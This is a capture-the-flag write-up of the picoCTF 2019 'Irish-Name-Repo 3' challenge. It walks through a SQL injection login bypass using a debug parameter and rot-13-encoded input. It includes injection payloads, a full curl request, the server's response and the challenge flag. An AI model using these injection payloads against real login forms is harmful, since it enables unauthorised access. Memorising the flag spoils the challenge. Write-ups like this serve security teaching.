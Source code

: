 # Irish-Name-Repo 3 - 400 points
## Description

There is a secure website running at `https://2019shell1.picoctf.com/problem/4161/` ([link](https://2019shell1.picoctf.com/problem/4161/)) or http://2019shell1.picoctf.com:4161. Try to see if you can login as admin!

## Flag

```
picoCTF{3v3n_m0r3_SQL_d490b67d}
```

## Solution

The last challenge was SQL injection so it was safe to assume that this one would be too.

The first thing I did was try another simple payload like `' OR 1=1--`. Unfortunately, it gave an HTTP 500 error.

At that point I realized in the HTTP POST request that it was sending a body parameter `debug` that was set to `0`. With it set to `0`, it would just error and give no output. With it set to `1`, it would output the query.

This is the output with `debug=1` of a simple `' OR 1=1--`:

```
<pre>password: ' OR 1=1--
SQL query: SELECT * FROM admin where password = '' BE 1=1--'
</pre>
```

Whoa, what's happening with the `BE` thing? Looking at the output I could tell that it was rot-13 encoded because `B` obviously corresponds to `O` (and vice-versa). I just changed my payload to `' BE 1=1--` and tried again:

```sh
curl 'https://2019shell1.picoctf.com/problem/4161/login.php' -H $'User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_6  Sicherheits-Erg\xe4nzungsupdate) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.1.1 Safari/605.1.15' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8' -H 'Accept-Language: en-US,en;q=0.5' --compressed -H 'Referer: https://2019shell1.picoctf.com/problem/4161/login.html' -H 'Content-Type: application/x-www-form-urlencoded' -H 'DNT: 1' -H 'Connection: keep-alive' -H 'Cookie: jwt=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoiJz5cIj48aDE-aGk8L2gxPiJ9.5TyqQ5kcsGZB2MeWCkp6wRPvl3TfqQ_Pk83Dcv2kNbA' -H 'Upgrade-Insecure-Requests: 1' --data 'password=%27 BE 1=1--&debug=1'
```

I got this response:

```
<pre>password: ' BE 1=1--
SQL query: SELECT * FROM admin where password = '' OR 1=1--'
</pre><h1>Logged in!</h1><p>Your flag is: picoCTF{3v3n_m0r3_SQL_d490b67d}</p>
```

Okay, that was also very easy. Let's move on.

